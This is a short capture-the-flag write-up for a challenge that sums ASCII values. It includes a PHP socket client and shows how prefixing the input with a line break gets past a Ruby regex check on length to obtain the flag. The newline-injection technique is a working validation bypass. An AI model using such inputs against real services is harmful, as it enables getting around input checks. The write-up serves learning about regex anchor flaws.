 # Ruby's count
(exp50, solved by 219)

> Description: Hi, my name is Ruby. I like converting characters into ascii values and then calculating the sum.
> 
> Service: 188.166.133.53:12037

# Solution

I can found this on the service :

> Let me count the ascii values of 10 characters:

```
<?php
error_reporting(E_ALL);

//http://homakov.blogspot.fr/2012/05/saferweb-injects-in-various-ruby.html
//http://rubular.com/

/* Get the port for the WWW service. */
$service_port = 12037;

/* Get the IP address for the target host. */
$address = '188.166.133.53';

/* Create a TCP/IP socket. */
$socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
if ($socket === false) {
    echo "socket_create() failed: reason: " . 
         socket_strerror(socket_last_error()) . "\n";
}

echo "Attempting to connect to '$address' on port '$service_port'...";
$result = socket_connect($socket, $address, $service_port);
if ($result === false) {
    echo "socket_connect() failed.\nReason: ($result) " . 
          socket_strerror(socket_last_error($socket)) . "\n";
}

$msg = 'ffffffffff';
$out = '';

echo "Reading response:\n\n";
$i = 0;
while ($out = socket_read($socket, 2048)) {
    echo $out;
    if ($i%2 == 1) {
    	$result = explode(" ", $out);
    	socket_write($socket, $msg, strlen($msg));
    }
    $i++;
}

socket_close($socket);

?>
```

Then i receive the message :

> That's not enough (1020 < 1020) :(

Then i read this article http://homakov.blogspot.fr/2012/05/saferweb-injects-in-various-ruby.html and change the message to :

```
$msg = 'a
ffffffffff';
```

Then i get the flag : **IW{RUBY_R3G3X_F41L}**